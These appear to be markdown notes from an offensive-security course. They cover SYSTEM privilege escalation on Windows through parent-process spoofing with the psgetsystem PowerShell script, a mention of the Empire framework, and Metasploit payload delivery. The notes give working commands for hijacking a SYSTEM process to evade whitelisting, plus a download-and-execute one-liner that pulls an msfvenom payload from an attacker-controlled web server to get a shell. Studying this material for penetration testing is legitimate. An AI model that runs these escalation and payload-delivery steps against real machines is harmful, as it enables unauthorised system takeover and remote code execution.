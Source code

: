 	https://github.com/decoder-it/psgetsystem

psgetsystem allows us to get SYSTEM privileges via a parent process, which then spawns a child process which effectively inherits the SYSTEM access privileges of the parent.
Although this tool needs to be run as Administrator, its a great way to evade application whitelisting solutions by being to inject ourselves into an already signed or other trusted process.

After send the script to the target
```powershell
	. .\psgetsys.ps1
	[MyProcess]::CreateProcessFromParent(<system_id>, "<Command to execute>")
```

- First we need to identify some SYSTEM processes

```powershell
Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id
```

This should return a list of all SYSTEM-owned processes along with their PIDs and process names.
in this case we will use **ZeroConfigService**

- This will launch a cmd.exe prompt, but as a child process of the SYSTEM-owned ZeroConfigService.exe process, and as a result, our **child** process, will also be SYSTEM.

```powershell
	. .\psgetsys.ps1
	[MyProcess]::CreateProcessFromParent(3632,"cmd.exe")
```

> we can confirm this by running a tool like Process Explorer, to see that our cmd.exe process has been spawned as a child process of the ZeroConfigService process and is also SYSTEM.

> of course, in an attack scenario, we could launch a meterpreter executable payload as SYSTEM and get a SYSTEM shell from the target machine.


- Empire

	https://github.com/EmpireProject/Empire

> Another post-exploitation framework
Its main advantage is that is implements powershell functionality without requiring the existence of powershell on a target machine.



## Powershell and Metasploit


set a handler in meterpreter
make a payload in msfvenom = -f psh-reflection > payload.ps1
make a web host to send the payload to the target
```python
	python -m http.server
```

grab the file in the target machine:
```powershell
powershell iex (New-Object Net.Webclient).DownloadString('http://<kali ip>/payload.ps1')
```
